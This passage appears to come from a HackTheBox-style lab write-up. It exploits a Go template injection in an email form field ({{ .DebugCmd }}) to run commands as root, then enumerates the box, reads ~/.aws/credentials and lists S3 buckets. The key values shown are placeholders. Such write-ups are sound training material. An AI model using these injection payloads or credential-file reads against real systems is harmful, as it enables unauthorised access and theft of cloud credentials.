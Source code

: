 Testing command injection with the SSTI vulnerability:
```
email={{ .DebugCmd "id" }}
```
```
Email Sent To: uid=0(root) gid=0(root) groups=0(root)
```

It works and shows the result of the `id` command, so it can be used to enumerate the box:
```
email={{ .DebugCmd "hostname" }}
```
```
Email Sent To: aws
```

The hostname of the box is _aws_, so checking if the `aws` executable is available:
```
email={{ .DebugCmd "which aws" }}
```
```
Email Sent To: /usr/bin/aws
```

Checking the home folder of root:
```
email={{ .DebugCmd "ls -la ~" }}
```
```
drwx------ 1 root root 4096 Aug 26  2021 .
drwxr-xr-x 1 root root 4096 Aug 24  2021 ..
drwxr-xr-x 2 root root 4096 Aug 24  2021 .aws
-rw------- 1 root root  104 Aug 26  2021 .bash_history
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
```

Enumerating the _.aws_ directory:
```
email={{ .DebugCmd "ls -la ~/.aws" }}

email={{ .DebugCmd "cat ~/.aws/credentials" }}
```
```
aws_access_key_id=SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz
aws_secret_access_key=SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz
```

These keys can be used from our local client to access the box.

### Exploiting AWS

Listing **S3 Buckets**:
```
email={{ .DebugCmd "aws s3api list-buckets" }}
```
```
"Buckets": [
        {
            "Name": "website",
            "CreationDate": "2022-08-23T10:57:58.000Z"
        }
    ],
(...)
```
